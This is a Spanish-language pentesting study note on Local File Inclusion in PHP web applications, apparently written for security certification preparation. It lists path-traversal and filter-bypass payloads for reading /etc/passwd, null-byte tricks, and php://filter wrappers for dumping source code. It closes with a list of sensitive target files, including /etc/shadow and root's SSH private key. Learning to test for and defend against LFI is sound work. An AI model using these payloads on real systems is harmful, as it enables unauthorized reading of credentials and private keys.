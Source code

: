 # Local File Inclusion
Es una vulnerabilidad que nos permite visualizar ficheros de la máquina victima a través del navegador web.
Cuando tenemos la opción de vulnerar un LFI  (ejemplo lo pongo después), nos podemos encontrar con restricciones. PHP, que utiliza funciones como ```include```, ```require```, ```include_once``` y ```require_once```, a menudo contribuye a que las aplicaciones web sean vulnerables.

## Sin restricción
Basta con poner el nombre del fichero que queremos leer

## Estando enjaulado en /var/www/html
Basta con volver a la raíz con '../'
```
../../../../..//etc/passwd
```

## Con '../' restringido

Pondriamos doble  '....//' ya que la sanitización eliminaría el primer '../' pero quedaría el segundo
```
....//....//....//....//etc/passwd
```

## Con cadenas de texto concretos restringidos

Si tenemos /etc/passwd restringido por ejemplo, podemos jugar con interrogantes, o incluso con barras o './'
```
....//....//....//....//?tc/p?sswd
....//....//....//....//etc///////////passwd
....//....//....//....//etc/./././passwd
```

Incluso si tenemos restringido, que los ultimos 6 caracteres conicidan con 'passwd'
```
....//....//....//....//etc/./././passwd/.
```
## Con forzado de extensiones (Parcheado a partir de PHP 5.3.4)
si el desarrollador concatena el $filename con por ejemplo .php, el fichero que buscaríamos sería /etc/passwd.php, cosa que no existe. para ello se puede para algunas versiones de PHP aplicar un null byte, con '%00' o '\0'

```
....//....//....//....//etc/passwd%00
....//....//....//....//etc/passwd\0
```


# Jugando con wrappers

Al navegar por un sitio web con php, en la url se hace referencia al fichero, por ejemplo index.php, o about.php. Lo que ocurre que si nos dirigimos a ese fichero, el propio servidor lo va a interpretar y cargará el sitio web.

Para ello jugaremos con un wrapper que nos convierte la petición al fichero php en base64, posteriormente inspeccionamos el código web con 'Clic derecho > inspeccionar'.  y buscamos la cadena en base64. 


Si nos fijamos ```page=courses ``` hace referencia a una página. es común que el código haga una concatenación con la extensión php. de manera que cuando pone page=courses, en realidad se está dirigiendo al fichero courses.php


<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi2.png" />

Teniendo esto claro, podemos jugar con el wrapper ```
```
php://filter/convert.base64-encode/resource=
```

<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi1.png" />

Así estamos accediendo al fichero index.php para ver su contenido. Algo que puede ser útil para visualizar por ejemplo un fichero php de conexión a base de datos, que debe incluir las credenciales de acceso.

también tenemos estos, que nos mostraría directamente el codigo php por pantalla:
```
php://filter/read=string.rot13/resource= 
```
y para descifrar esto, en bash:
```
tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
```


Otro ejemplo mas práctico:
```
php://filter/convert.iconv.utf8-utf16/resource=
```

-----------------------------
## Ficheros para testear
* /etc/profile controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived
* /proc/version specifies the version of the Linux kernel
* /etc/passwd has all registered user that has access to a system
* /etc/shadow contains information about the system's users' passwords
* /root/.bash_history contains the history commands for root user
* /var/mail/root all emails for root user
* /root/.ssh/id_rsa Private SSH keys for a root or any known valid user on the server
* /var/log/apache2/access.log the accessed requests for Apache  webserver

